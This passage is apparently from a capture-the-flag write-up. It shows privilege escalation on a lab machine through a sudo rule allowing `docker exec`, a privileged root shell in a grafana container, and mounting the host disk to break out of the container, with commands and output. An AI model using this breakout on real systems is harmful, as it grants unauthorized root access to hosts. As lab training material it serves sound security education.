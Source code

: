 Go ahead and grab the user flag and we can move on to escalating privileges. 
## Privilege Escalation

Checking `sudo -l` we find the following:

```console
boris@ip-10-10-10-11:~$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

One interesting thing here is that even though there is a `grafana` user listed in the `/etc/passwd` file, there is not a corresponding `/home/grafana` directory. Between that and the command we're able to run with `sudo`, we can make a guess that the `grafana` home directory is inside a Docker container. This was a bit guessy, so if anyone has a good methodology for accurately enumerating the container name without being a member of the `docker` group and with limited `sudo` permissions, please reach out and let me know.

Checking the docker docs here we find a command we can probably use. 

[Docker Docs | Exec](https://docs.docker.com/reference/cli/docker/container/exec/)

```console
boris@ip-10-10-10-11:~$ sudo /snap/bin/docker exec --privileged -u 0 -it grafana /bin/sh
/usr/share/grafana #
```

Now that we have privileged access in the container, we can mount the underlying file system. 

[Docker | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

We can check the disks with `fdisk -l`. 

```console
/opt # fdisk -l
Disk /dev/xvda: 8192 MB, 8589934592 bytes, 16777216 sectors
6367 cylinders, 85 heads, 31 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Device   Boot StartCHS    EndCHS        StartLBA     EndLBA    Sectors  Size Id Type
/dev/xvda1 *  0,32,33     20,84,31          2048   16777182   16775135 8190M 83 Linux
```

With that, we can use `/dev/xvda1` with the `mount` command to mount the filesystem in our newly created directory. 

```console
/opt # mkdir /mnt/th0m12

/opt # mount /dev/xvda1 /mnt/th0m12

/opt # cd /mnt/th0m12/

/mnt/th0m12 # ls -la
total 104
drwxr-xr-x   23 root     root          4096 Jun 30 20:56 .
drwxr-xr-x    1 root     root          4096 Jun 30 21:32 ..
drwxr-xr-x    2 root     root          4096 Nov 29  2021 bin
drwxr-xr-x    3 root     root          4096 Nov 29  2021 boot
drwxr-xr-x    4 root     root          4096 Nov 29  2021 dev
drwxr-xr-x   91 root     root          4096 Jun 30 20:56 etc
drwxr-xr-x    4 root     root          4096 Jan 23  2022 home
lrwxrwxrwx    1 root     root            30 Nov 29  2021 initrd.img -> boot/initrd.img-5.4.0-1060-aws
```
